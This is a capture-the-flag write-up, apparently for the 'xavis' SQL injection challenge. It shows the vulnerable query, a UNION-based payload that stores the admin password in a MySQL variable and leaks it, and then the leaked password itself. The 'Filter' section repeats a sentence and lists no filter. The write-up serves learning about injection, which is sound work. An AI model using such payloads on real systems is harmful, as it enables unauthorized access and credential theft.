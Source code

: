 ```yaml
---
custom_edit_url: null
sidebar_position: 19
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/fd332084-b8f3-4deb-ad35-fedd5d2021f5)

We are provided with the SQL query:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='{$_GET[pw]}'
```

For this challenge, the password is in Korean. There are two ways of solving this challenge.

## Filter

The code filters the following:

For this challenge, the password is in Korean. There are two ways of solving this challenge.

1. Assigning the password to a variable and leaking the variable
2. Blind SQL Injection

## Assigning the password to a variable and leaking the variable

If we provide the following URI parameter:

```
?pw=' or (SELECT @adminpassword:=pw WHERE id='admin') UNION SELECT @adminpassword -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='' or (SELECT @adminpassword:=pw WHERE id='admin') UNION SELECT @adminpassword -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/6bad479f-f987-4106-bf7f-cd348902bf6c)

As we can see, the password which was stored in the `adminpassword` variable has been leaked.

```
우왕굳
```

We can now provide the following URI:

```
?pw=우왕굳
```

The resultant query becomes:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='우왕굳'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/30da5ecc-5dec-4a67-9d19-509490f2753f)
